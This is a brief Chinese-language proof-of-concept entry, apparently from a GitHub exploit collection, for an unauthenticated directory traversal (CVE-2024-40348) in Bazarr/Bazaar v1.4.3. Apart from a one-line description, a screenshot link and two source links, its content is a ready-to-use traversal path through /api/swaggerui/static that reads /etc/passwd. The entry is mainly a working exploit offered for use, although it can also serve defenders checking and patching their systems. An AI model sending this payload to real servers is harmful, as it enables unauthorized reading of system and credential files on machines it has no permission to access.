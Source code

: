 # Bazarr任意文件读取(CVE-2024-40348)

Bazaar v1.4.3 的组件 /api/swaggerui/static 中存在一个问题，允许未经身份验证的攻击者执行目录遍历。
![image](https://github.com/user-attachments/assets/b6ce192e-a84a-4254-b2f2-f4bcb6bb51d0)

## poc

```yaml
/api/swaggerui/static/../../../../../../../../../../../../../../../../etc/passwd
```



## 漏洞来源

- https://www.seebug.org/vuldb/ssvid-99863
- https://github.com/4rdr/proofs/blob/main/info/Bazaar_1.4.3_File_Traversal_via_Filename.md
